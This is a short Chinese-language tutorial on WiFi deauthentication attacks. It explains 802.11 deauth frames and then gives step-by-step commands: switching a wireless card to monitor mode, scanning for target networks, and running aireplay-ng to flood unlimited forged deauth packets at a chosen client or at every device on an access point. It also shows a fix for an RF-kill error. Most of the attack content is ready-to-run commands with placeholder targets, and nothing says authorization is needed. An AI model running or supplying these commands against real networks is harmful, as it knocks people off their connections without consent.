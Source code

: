 # 解除WiFi认证(断开连接)攻击 Deauthentication
## Deauthentication
* ```
    Deauthentication（断开连接）是一种无线网络管理帧（Management Frame）的类型，
    用于通知客户端设备断开与 接入点 的连接。它是IEEE 802.11(数据包类型)标准中定义的一种帧类型。

## Deauthentication Attck 原理
* 发送伪造的 断开连接数据包 给client。
## 前提
* 需要带有监听功能的wifi适配器
* 确认你的无线网卡支持监控模式（monitor mode）和数据包注入（packet injection）。
* ```
    # 关闭wifi
    sudo ifconfig wlan0 down
    # 切换为监听模式
    sudo iw wlan0 set monitor none

    # iwconfig 查看是否为监听模式
    

## aireplay-ng工具
* aireplay-ng 是一款强大的网络攻击工具，用于`无线网络`的安全测试和攻击。
* ```
    # 扫描wifi网络得到BSSID,ESSID
    sudo rfkill unblock wifi
    sudo ifconfig wlan0 up  
    sudo iwlist wlan0 scan | grep -i 'cell\|bssid\|essid'

    # 注意 bssid是唯一标识符(可以是mac)，essid是wifi网络的名称
* ```
    # 扫描附近的无线网络(同上)
    sudo aireplay-ng -9 wlan0
    # 或者
    sudo airodump-ng wlan0
* ```
    # 发起断开连接攻击
    # --deauth 0表示发起无限个包
    # -c 可用逗号分隔开多个mac值，对多个设备进行断开wifi
    sudo aireplay-ng --deauth 0 -a <目标BSSID> -c <目标客户端MAC地址> wlan0
* ```
    # 断开所有设备wifi
    sudo aireplay-ng --deauth 0 -a <目标BSSID> wlan0

## 报错
* ```
    # 报错
    ioctl(SIOCSIFFLAGS) failed: Operation not possible due to RF-kill
    # 使用命令
    sudo rfkill unblock wifi
